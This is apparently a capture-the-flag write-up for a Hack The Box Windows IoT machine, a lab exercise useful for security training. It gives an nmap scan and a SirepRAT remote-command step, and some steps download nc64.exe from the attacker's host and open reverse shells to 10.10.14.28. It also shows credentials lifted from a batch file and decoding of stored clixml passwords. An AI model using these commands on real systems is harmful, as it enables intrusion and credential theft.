


# Box 


https://www.hackthebox.eu/home/machines/profile/271

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177


# Table of Contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -Pn -sC -oN result 10.10.10.204
```


When we connect to the web page : 


After researching for "windows device portal" we find a software that we can use to do a RCE : https://github.com/SafeBreach-Labs/SirepRAT 

## Exploitation

I've tried to upload and use nc.exe but it doesn't work so I try to use the 64 bits one. 

To upload our nc we use : 

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell -c  \"Invoke-WebRequest \"http://10.10.14.28:4444/nc64.exe\" -OutFile \"C:\Windows\Temp\nc64.exe\"  \" "
```

Now we can get our reverse_shell : 

```python
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --as_logged_on_user --return_output  --cmd "cmd.exe" --args  "/c C:\Windows\Temp\nc64.exe 10.10.14.28 1234 -e cmd.exe"  --vv
```


## Post-Exploitation

### User


Let's upload our enumeration script jaws-enum.ps1.

Nothing is suspicious except for a file called "r.bat" which is a weird name for a .bat file 

We also saw a path with a user folder and administrator :



let's see what's inside the r.bat file : 

```bash
type  "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
```


We got credentials :

```powershell
net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz
```

Now we can authenticate on the webpage.


​                          

We can see a "Run command" page (http://10.10.10.204:8080/#Run%20command)

We can use our previous nc64.exe to get a shell with app user 

```powershell
C:\Windows\Temp\nc64.exe -e cmd.exe 10.10.14.28 1234
```

it seems that we have an access denied. 

I reupload the file thanks to the run command page in the app folder that we discovered earlier.

```powershell
powershell -c "Invoke-WebRequest -Uri \"http://10.10.14.28:4444/nc64.exe\" -OutFile \"C:\Data\Users\app\nc64.exe\"" 
```

Execute our reverse_shell :

```powershell
C:\Data\Users\app\nc64.exe -e powershell.exe 10.10.14.28 1234
```


Now let's type the user.txt file.


It seems that the files are encoded thanks to the clixml utility.

We can decode it easily with theses commmands : 

```bash
$Credential = Import-Clixml -Path C:\Data\Users\app\user.txt
$Credential.GetNetworkCredential().Password
```



### Root


You need to do the same with the admin crdential that we found earlier, authenticate, run the command on the webpage, get a reverse_shell, et decode the clixml file.

Rooted.

